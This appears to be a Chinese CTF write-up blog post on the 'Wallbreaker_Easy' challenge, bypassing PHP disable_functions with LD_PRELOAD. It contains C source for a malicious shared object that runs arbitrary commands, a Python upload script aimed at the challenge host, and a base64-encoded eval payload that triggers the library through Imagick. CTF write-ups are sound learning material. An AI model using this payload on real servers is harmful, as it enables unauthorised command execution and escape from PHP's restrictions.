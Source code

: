 ```yaml
---
title: "PHP特性相关"
date: 2020-09-26
description: "什么叫世界上最好的语言啊（后仰"
categories: [
  "CTF"
]
tags: [
  "PHP"
]
---
```


## Wallbreaker_Easy

这题用不上但是记一下:[绕open_basedir](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

传统艺能LD_PRELOAD绕disable_functions

祖传so代码

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
extern char** environ;
__attribute__ ((__constructor__)) void preload (void)
{
    const char* cmdline = getenv("CMD");
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = ' ';
            }
    }
    system(cmdline);
}
```

上传so

```python
import requests

url = "http://a2300c73-bc34-4236-b95b-c1be913a7719.node3.buuoj.cn/"
data = {'backdoor':'''move_uploaded_file($_FILES["file"]["tmp_name"],'/tmp/8f3186a04d945279cc90a84497823269/evil.so');'''}
files = {'file': open("evil.so", 'rb')}
response = requests.post(url, data=data, files=files)
print(response.request.body)
```

b64编码一下，注意魔法后缀`ilbm`，`new Imagick`的时候可以直接up出imagick进程从而触发preload（原理有待研究，可能是ilbm需要外部调用进行一些处理）

```python
import base64
print(base64.b64encode('''$mypath = "/tmp/8f3186a04d945279cc90a84497823269/";
putenv("CMD=/readflag" . " > " . $mypath . "flag 2>&1");
putenv("LD_PRELOAD=" . $mypath . "evil.so");

file_put_contents($mypath . "evil.ilbm", "");
$im = new Imagick($mypath . "evil.ilbm");'''.encode('utf-8')))
```

payload打一下

```
backdoor=eval(base64_decode("JG15cGF0aCA9ICIvdG1wLzhmMzE4NmEwNGQ5NDUyNzljYzkwYTg0NDk3ODIzMjY5LyI7CnB1dGVudigiQ01EPS9yZWFkZmxhZyIgLiAiID4gIiAuICRteXBhdGggLiAiZmxhZyAyPiYxIik7CnB1dGVudigiTERfUFJFTE9BRD0iIC4gJG15cGF0aCAuICJldmlsLnNvIik7CgpmaWxlX3B1dF9jb250ZW50cygkbXlwYXRoIC4gImV4cDEuaWxibSIsICIiKTsKJGltID0gbmV3IEltYWdpY2soJG15cGF0aCAuICJleHAxLmlsYm0iKTs="));
```